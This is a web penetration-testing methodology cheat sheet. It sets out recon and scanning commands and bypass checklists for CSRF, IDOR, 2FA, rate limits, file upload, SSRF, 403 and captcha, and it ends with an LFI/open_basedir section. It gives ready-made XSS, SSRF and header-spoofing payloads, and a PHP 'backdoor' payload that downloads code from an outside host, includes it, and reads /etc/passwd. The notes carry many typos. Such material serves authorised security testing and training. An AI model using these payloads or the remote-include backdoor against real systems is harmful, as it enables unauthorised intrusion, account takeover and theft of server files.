

# Methodology v1.0

## R**econnaissance**

**Active recon ⇒ Port scan/valu scan/web scan/nmap/masscan**

**Passive recon ⇒ whios/whatweb/osint/DNS/>Dorks**

#### **I am seeking to obtain the following:**

**My principle is from start to finish ..**

> **1-IPs**&#x20;
>
> **2-Subdomains**&#x20;
>
> **3-Js Files**
>
> **4-Directories**
>
> **5-Parameters**&#x20;
>
> **6-Emails**

<figure><figcaption><p>Recon Guide for Pentesters</p></figcaption></figure>

### **JSfinder to find a JS files**

<pre class="language-jsx" data-overflow="wrap"><code class="lang-jsx">echo "invisionapp.com" | waybackurls | grep -iE '.js'|grep -ivE '.json'|sort -u  > j.txt
<strong>python JSFinder.py -u &#x3C;https://www.example.com>
</strong></code></pre>

**======================================================================**

## &#x20;**Enumerating subdomains**

### **Sublist3r**

```jsx
sublist3r -d mathworks.com -o sublis3r-domain.txt
```

**======================================================================**

### **assetfinder**

```jsx
assetfinder --subs-only mathworks.com   > assetfinder_domains.txt
```

**======================================================================**

### **httprob to make the domain to (HTTP/HTTPS)**

```jsx
nano do.txt
----------------------
..>
-- google.com
-- edemy.com
-- mathworks.com
..>
---------------------- 
cat  do.txt | httprobe
```

**========================================================================**


```jsx
cat do.txt | xargs -n1 host | grep "has address" | cut -d " " -f4  | sort -u  > ips.txt
```


**xargs ⇒ build and execute command lines from standard input**

```bash
   xargs [options] [command [initial-arguments]]
   #1 -> if some other error occurred.
```


**======================================================================**

## Scanning open port

### **masscan**

<figure><figcaption></figcaption></figure>

```
masscan -Il ips.txt -p0-65535 --rate=100 --interface ethx
```

**======================================================================**

### **namp**

```bash
namp -p- -sC -sV -Pn -iL -T4 -sS --script="*" ips.txt
```

**=======================================================================**

### **amass**

```bash
amass enum -brute -d domain.com -o amass_domain.txt
```

**=======================================================================**


## Merging subdomains into one file:- \*-subs.txt

<figure><figcaption></figcaption></figure>

**========================================================================**

### **Nuclei**

```bash
nuclei -l http_domains.txt -t nuclei-templates/

#Subdomain Takeover
nuclei -t /root/nuclei-templates/takeovers/ -l live-subs.txt
```

## **Directory and File Enumeration**

### **Gobuster**


```bash
gobuster dir -u http://10.10.190.226 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x aspx,asp,html,txt -o gobuster-80.txt -t 100
```


### **Run FFUF**&#x20;

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>fuff -u https://exmple.com/FUZZ -w Onelistforall/onelistforallshort.txt -mc 200,403,301,302 -c true -v -o Output.txt
</strong></code></pre>

## Hidden parameters

### Arjun

```bash
arjun -u https://example.com/admin.login -w burp-parameter-names.txt
```

### Cors Misconfigration

<pre class="language-bash"><code class="lang-bash">#To check CORS misconfigurations of specific domain:
python cors_scan.py -u example.com

#To enable more debug info, use -v:
python cors_scan.py -u example.com -v

<strong>#To save scan results to a JSON file, use -o:
</strong>python cors_scan.py -u example.com -o output_filename

#To check CORS misconfigurations of specific URL:
python cors_scan.py -u http://example.com/restapi

#To check CORS misconfiguration with specific headers:
python cors_scan.py -u example.com -d "Cookie: test"

#To check CORS misconfigurations of multiple domains/URLs:
python cors_scan.py -i top_100_domains.txt -t 100

#To enable proxy for CORScanner, use -p
python cors_scan.py -u example.com -p http://127.0.0.1:8080

#To use socks5 proxy, install PySocks with pip install PySocks

python cors_scan.py -u example.com -p socks5://127.0.0.1:8080
</code></pre>

### **Bypassing CSRF Protect**

* [ ] Remove the entire token parameter with Value/Remove just the value.
* [ ] Use any other random but sam length token
* [ ] Use any other random (length-1) or (length+1) token
* [ ] Use attacker's token in victim's session.
* [ ] Change the method from POST to GET and Remove Token.
* [ ] if request is made through PUT ir DELETE then Try **`POST /profile/update?_method=PUT HTTP/1.1`** or&#x20;

```
POST /profile/update HTTP/1.1
HOST: example.com
...

 _method=PUT 
```

* [ ] if token is ent through custom header; try to remove the header.
* [ ] Change the Content-Type to application/json, application/x-url-encoded or from-mutipart, text/xml, application/xml.
* [ ] if double submit token is there (in cookie and some header then try [**CRLF injection.**](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a#crlf)
* [ ] [https://github.com/daffainfo/AllAboutBugBounty/blob/master/CRLF%20Injection.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/CRLF%20Injection.md)
*   [ ] Bypass referrer check:

    I if the referrer header is checked buy only when it exists in the request then add piece of code in your csrf POC: **\<meta name="referrer" content="never">**
* [ ] **ii.** Regex Referral  bypass

```
https://attacker.com?target.com
https://attacker.com;target.com
https://attacker.com/target.com/../targetPATH
https://target.com.attacker.com
https://attackertarget.com
https://target.com@attacker.com
https://attacker.com#target.com
https://attacker.com\.target.com
https://attacker.com/.target.com
```

* [ ] CSRF token stealing via xss/htmli/cors.
* [ ] JSON Based:
  * [ ] i. Change the content-Type to **`text/plain,application/x-www-from-urlencoded, multipart/from-data`** and check if it accepts
  * [ ] Use flash + 307 redirect
* [ ] Guessable CSRF Token
* [ ] Clickjacking to strong CSRF token bypass
* [ ] Type Juggling
* [ ] Array: newmail=victim@gmail.com\&csrftoken\[]=lol
* [ ] set the CSRF token to "**`null`**" or add null  bytes.
* [ ] check wether CSRF token is sent over http or sent to 3rd party.
* [ ] Generate multiple CSRF token, observe the static part, Keep it as it is and play with thr dyamic part
* [ ] Remove X-CSRF-TOKEN from Header

### **IDOR**

* [ ] Find and Replace **`IDs` in URLs, header and body: /users/01 -> /users/02**
* [ ] **Try** Parameter Pollution: **`users=01` -> `users=01&users=02`**
* [ ] Special Characters: **`/users/01* or /users/*` -> `Disclosure of every single user`**
* [ ] Try Older version of api endpoint: /api/v3/users/01 **->** /api/v1/users/02 , etc.....
* [ ] add extension: /users/01 **-> /users/02.json/XML**
* [ ] Change Request Methods **`POST /users/01` -> `GET, PUT, PATCH, DELETE`**  etc...
* [ ] Check if the Referrer or some other Headers are used to validate the **`IDs`**&#x20;
  * [ ] **`GET /users/02` -> `403 Forbidden`**
  * [ ] **`Referer: example.com/usser/01`**
  * [ ] **`-----------------------------`**
  * [ ] **`GET /users/02` -> 200 `OK!`**
  * [ ] **`Referer: example.com/usser/02`**
* [ ] Encrypted IDs  if application using encrypted IDs , try  to decrypt using[ **hashes.com**](https://hashes.com/en/decrypt/hash) **or other tools**
* [ ] Swap **`GUID`**` ``With Numeric`` `**`ID`**` ``or`` `**`email:`**
  * [ ] **`/users/1b04c123-89f2-241s-b15b-e15641384h25`   -> `/users/02 or /users/a@b.com`**
*   [ ] Try GUIDs sush as:

    * [ ] 00000000-0000-0000-0000-000000000000 and 11111111-1111-1111-1111-1111111111111111
    * [ ] GUID Enumeration: try to disclose GUIDs using **`Google Dorks,Github,wayback,Burp,History`**
    * [ ] if none of the GUID Enumeration methods work then try: **`SignUp, Reset Password,Other endpoints`**within the application and analyze the response&#x20;
    * [ ] **`403/401`**` ``Bypass:` if server responds back with a **`403/401`** then try ti use burp intruder and send 50-100 requests having different IDs: Ex: from **`/users/01 to /users/100`**&#x20;

    Bild IDORsL Sometimes information is not directly discloed, Lookout for endpoint and features that may disclose information such as export  files, emails or message alerts.
* [ ] Chain IDOR with XSS for Account Tackeovers

### 2FA Bypass Techniques

*   [ ] \
    **OTP BYPASS**

    * Response Manipulation: if **`"success":false`** change to **`"success":true`**
    * **`Status Code` Manipulation: if status is 4xx change to 200 ok**&#x20;
    * By repeating the form submission multiple times using a repeater
    * js file: Rare but some js files may contain some information about 2FA code
    * Brute Forcing any length MFA Code
    * \[\[JSON Tests Cheat Sheet]] -> Array of codes.....
    * Check for default OTP - **`111111, 123456, 000000,4242 or null`**
    * leaked in response
    * CSRF on 2fa Disabling&#x20;
    * Password reset Disable 2fa Email/Password
    * old OTP is still valid
    * Integrity Issues -> Use someone else OTP to open your account

    ```
    POST /2fa/
    Host: vuln.com
    ...
    email=attacker@gmail.com&code=382923
    ```

    ```
    POST /2fa/
    Host: vuln.com
    ...
    email=victim@gmail.com&code=382923
    ```


    Always check the response!

    ```
    POST /req-2fa/
    Host: vuln.com
    ...
    email=victim@gmail.com
    ```

    The response is

    ```
    HTTP/1.1 200 OK
    ...
    {"email": "victim@gmail.com", "code": "101010"}
    ```

### **Bypassing Rate Limit Protection**

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-For: 127.0.0.1
```

* [ ] intead of 127.0.0.1 , try 127.0.0.2,127.0.0.3,....
* [ ] Even you can try using double X-Forwarded-For

```
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 
```

* [ ] try changing **user-agent,cookies**
* [ ] Append null bytes (**`%00,%0d,%0a,%0d,%0d%0a,%09,%0C,%20`**) to the original endpoint          (Ex: **`POST /forgot-password%20 HTTP/1.1`**). Also try adding the bytes after the value of parameter (Like email=h3ckt0r@gmail.com%20)
* [ ] Login to a vaild account and the invaild one, Repeat this process to foll the server that blocks our IP if ypu sunmit 3 incorrect logins in a row
* [ ] Race condition&#x20;
* [ ] add any random parameter in the request

```
POST /forgot-password?fake=1 HTTP/1.1
Host: target.com
....

email=victim@gmail.com&alsofake=2
```

* [ ] Change the request body (From to **`JSON/XML`** or vice-versa).
* [ ] Change request methods (**`POST to PUT to GET to PATCH to DELETE to HEAD to OPTIONS to TRACE To CONNECT`**)
* [ ] if developer implemented captcha-based protection then try [**captcha Bypass Techniques**](https://honeyakshat999.medium.com/captcha-bypass-techniques-f768521516b2)
* [ ] Gmail + and trick
* [ ] [https://bugcrowd.com/disclosures/55b40919-2c02-402c-a2cc-7184349926d7/login-capctha-bypass](https://bugcrowd.com/disclosures/55b40919-2c02-402c-a2cc-7184349926d7/login-capctha-bypass)
* [ ] change api version (EX: api/v2/1729/confirm-email to api/v1/1729/confirm-email )

### **File Upload**

Reference:https://brutelogic.com.br/blog/file-upload-xss/

Quick Analysis


```bash
-----------------------------------------------------------------
upload.random123		       ---	To test if random file extensions can be uploaded.
upload.php			       ---	try to upload a simple php file.
upload.php.jpeg 		       --- 	To bypass the blacklist.
upload.jpg.php 		               ---	To bypass the blacklist. 
upload.php 			       ---	and Then Change the content type of the file to image or jpeg.
upload.php*			       ---	version - 1 2 3 4 5 6 7.
upload.PHP			       ---	To bypass The BlackList.
upload.PhP			       ---	To bypass The BlackList.
upload.pHp			       ---	To bypass The BlackList.
upload.htaccess 		       --- 	By uploading this [jpg,png] files can be executed as php with milicious code within it.
pixelFlood.jpg			       ---	To test againt the DOS.
frameflood.gif			       ---	upload gif file with 10^10 Frames
Malicious zTXT  		       --- 	upload UBER.jpg 
Upload zip file			       ---	test againts Zip slip (only when file upload supports zip file)
Check Overwrite Issue	               --- 	Upload file.txt and file.txt with different content and check if 2nd file.txt overwrites 1st file
SVG to XSS			       ---	Check if you can upload SVG files and can turn them to cause XSS on the target app
SQLi Via File upload	               ---	Try uploading `sleep(10)-- -.jpg` as file
----------------------------------------------------------------------
```


* Test for IDOR By changing the object references \[filename, IDs,.....]
* EXIF Geo-location Data Not Stripped From Uploaded Images > Manual User Enumeration
* [xss\_comment\_exif\_metadata\_double\_quote](https://hackerone.com/reports/964550)
* XSS in filename `">.png`
* XSS metadata `exiftool -Artist=’ “>’ 88.jpeg`
* XSS in SVG `<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>`
* GIF to XSS `GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;`
* [**XSS in PDF**](https://drive.google.com/file/d/1JQ\_DVGdopanC59hnf6TF1dOwNsF\_wkFY/view)
* [ZIP TO XXE](https://hackerone.com/reports/105434)
* [SQL Injection - File name](https://shahjerry33.medium.com/sql-injection-the-file-upload-playground-6580b089d013)
* [XXE ON JPEG](https://hackerone.com/reports/836877)
* [Create A picture that steals Data](https://medium.com/@iframe\_h1/a-picture-that-steals-data-ff604ba101)

### **SSRF**

Here are 5 payloads that could be used for bypassing defenses when it comes to SSRF (Server-Side Request Forgery):

1.  **Bypass SSRF with CIDR:**

    ```arduino
    arduinoCopy codehttp://127.127.127.127
    http://127.0.0.0
    ```
2.  **Bypass using rare address:**

    ```arduino
    arduinoCopy codehttp://127.1
    http://0
    ```
3.  **Bypass using tricks combination:**

    ```perl
    perlCopy codehttp://1.1.1.1&@2.2.2.2@3.3.3.3/
    urllib: 3.3.3.3
    ```
4.  **Bypass against a weak parser:**

    ```perl
    perlCopy codehttp://127.1.1.1:80@127.2.2.2:80/
    ```
5.  **Bypass localhost with @:**

    ```arduino
    arduinoCopy codehttp://[::1]:80/
    http://0000::1:80/
    ```

***

Let’s remind ourselves what SSRF vulnerabilities are and what can we do with them. In general, SSRF allows us to:

* Access services on the loopback interface running on the remote server
* Scan internal network and potentially interact with the discovered services
* Read local files on the server using file:// protocol handler
* Move laterally / pivoting into the internal environment

**How to find SSRF?** When the target web application allows us to access external resources, e.g., a profile image loaded from external URL (running on a 3rd party website), we can try to load internal resources accessible by the vulnerable web application. For example:

1.  We discover that the following URL works:

    ```bash
    bashCopy codehttps://example.com:8000/page?user=&link=https://127.0.0.1:8000
    ```
2. We can then run Intruder attack (Burp Suite) trying different ports, effectively doing a port scan of the host.
3. We can also try to scan private IPs such as 192.168.x.x and discover alive IPs in the internal network


### Dangerous Functions

| Language       | Function                                                                                                                      | Possible Vulnerability                                                                                                                                                                                                                                                                                                      |
| -------------- | ----------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **PHP**        | `eval()`, `assert()`, `system()`, `exec()`, `shell_exec()`, `passthru()`, `popen()`, backticks (\`), `include()`, `require()` | RCE if used on unsanitized user input. `eval()` and `assert()` execute PHP code in its input, while `system()`, `exec()`, `shell_exec()`, `passthru()`, `popen()`, and backticks execute system commands. `include()` and `require()` can be used to execute PHP code by feeding the function a URL to a remote PHP script. |
| **PHP**        | `unserialize()`                                                                                                               | Insecure deserialization if used on unsanitized user input                                                                                                                                                                                                                                                                  |
| **Python**     | `eval()`, `exec()`, `os.system()`                                                                                             | RCE if used on unsanitized user input                                                                                                                                                                                                                                                                                       |
| **Python**     | `pickle.loads()`, `yaml.load()`                                                                                               | Insecure deserialization if used on unsanitized user input                                                                                                                                                                                                                                                                  |
| **JavaScript** | `document.write()`, `document.writeln`                                                                                        | XSS if used on unsanitized user input. These functions write to the HTML document. So if attackers can control the value passed into it on a victim's page, the attacker can write JavaScript onto a victim's page.                                                                                                         |
| **JavaScript** | `document.location.href`                                                                                                      | Open redirect when used on unsanitized user input. `document.location.href` changes the location of the user's page.                                                                                                                                                                                                        |
| **Ruby**       | `System()`, `exec()`, `%x()`, backticks (\`code\`)                                                                            | RCE if used on unsanitized user input                                                                                                                                                                                                                                                                                       |
| **Ruby**       | `Marshal.load()`, `yaml.load()`                                                                                               | Insecure deserialization if used on unsanitized user input                                                                                                                                                                                                                                                                  |

### Bypass 403 (Forbidden)

[Bypass-403 | Go script for bypassing 403 forbidden](https://github.com/daffainfo/bypass-403)

1. Using "X-Original-URL" header

```
GET /admin HTTP/1.1
Host: target.com
```

Try this to bypass

```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash

```
http://target.com/admin => 403
```

Try this to bypass

```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) slash (/) and semicolon (;) in the URL

```
http://target.com/admin => 403
```

Try this to bypass

```
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```

4. Add "..;/" after the directory name

```
http://target.com/admin
```

Try this to bypass

```
http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url

```
http://target.com/admin
```

Try this to bypass

```
http://target.com/aDmIN
```

6. Via Web Cache Poisoning

```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

### Bypass Captcha&#x20;

1. Try changing the request method, for example POST to GET

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET

```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```

2. Try remove the value of the captcha parameter

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter

```
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```

Convert to normal request

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Try this to bypass

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```

### Business Logic Errors

1. Review Functionality
   * Some applications have an option where verified reviews are marked with some tick or it's mentioned. Try to see if you can post a review as a Verified Reviewer without purchasing that product.
   * Some app provides you with an option to provide a rating on a scale of 1 to 5, try to go beyond/below the scale-like provide 0 or 6 or -ve.
   * Try to see if the same user can post multiple ratings for a product. This is an interesting endpoint to check for Race Conditions.
   * Try to see if the file upload field is allowing any exts, it's often observed that the devs miss out on implementing protections on such endpoints.
   * Try to post reviews like some other users.
   * Try performing CSRF on this functionality, often is not protected by tokens
2. Coupon Code Functionality
   * Apply the same code more than once to see if the coupon code is reusable.
   * If the coupon code is uniquely usable, try testing for Race Condition on this function by using the same code for two accounts at a parallel time.
   * Try Mass Assignment or HTTP Parameter Pollution to see if you can add multiple coupon codes while the application only accepts one code from the Client Side.
   * Try performing attacks that are caused by missing input sanitization such as XSS, SQLi, etc. on this field
   * Try adding discount codes on the products which are not covered under discounted items by tampering with the request on the server-side.
3. Delivery Charges Abuse
   * Try tampering with the delivery charge rates to -ve values to see if the final amount can be reduced.
   * Try checking for the free delivery by tampering with the params.
4. Currency Arbitrage
   * Pay in 1 currency say USD and try to get a refund in EUR. Due to the diff in conversion rates, it might be possible to gain more amount.
5. Premium Feature Abuse
   * Try forcefully browsing the areas or some particular endpoints which come under premium accounts.
   * Pay for a premium feature and cancel your subscription. If you get a refund but the feature is still usable, it's a monetary impact issue.
   * Some applications use true-false request/response values to validate if a user is having access to premium features or not.
   * Try using Burp's Match & Replace to see if you can replace these values whenever you browse the app & access the premium features.
   * Always check cookies or local storage to see if any variable is checking if the user should have access to premium features or not.
6. Refund Feature Abuse
   * Purchase a product (usually some subscription) and ask for a refund to see if the feature is still accessible.
   * Try for currency arbitrage explained yesterday.
   * Try making multiple requests for subscription cancellation (race conditions) to see if you can get multiple refunds.
7. Cart/Wishlist Abuse
   * Add a product in negative quantity with other products in positive quantity to balance the amount.
   * Add a product in more than the available quantity.
   * Try to see when you add a product to your wishlist and move it to a cart if it is possible to move it to some other user's cart or delete it from there.
8. Thread Comment Functionality
   * Unlimited Comments on a thread
   * Suppose a user can comment only once, try race conditions here to see if multiple comments are possible.
   * Suppose there is an option: comment by the verified user (or some privileged user) try to tamper with various parameters in order to see if you can do this activity.
   * Try posting comments impersonating some other users.
9. Parameter Tampering
   * Tamper Payment or Critical Fields to manipulate their values
   * Add multiple fields or unexpected fields by abusing HTTP Parameter Pollution & Mass Assignment
   * Response Manipulation to bypass certain restrictions such as 2FA Bypass

## LFI & RFI bypass

* `phpinfo()`
  * `FPM/FastCGI`
  * `disable_functions`: `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail`

<!---->

* [ ] IF Found **`disable_functions & open_basedir`** in PHP try using **`Open basedir`**&#x20;
*   [ ] \


    <figure><figcaption></figcaption></figure>

    <figure><figcaption></figcaption></figure>
* [ ] to bypass open\_basedir use **`glob://`**

```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

**Note1**: In the path you can also use **`/e??/*`** to list **`/etc/*`** and any other folder.

**Note3**: This example is only useful to list folders not to read files

Payload:

```php
backdoor=
var_dump(file_put_contents("/tmp/42126aff4925d8592d6042ae2b81de08/a.php", file_get_contents("http://kaibro.tw/ext2")));
include("/tmp/42126aff4925d8592d6042ae2b81de08/a.php");

var_dump(file_get_contents("/etc/passwd"));
```

Output:

```bash
root:x:0:0:root/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

* [ ] To change Dir using this&#x20;

```php
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('File_name'));
```

### Disable\_Function bypass


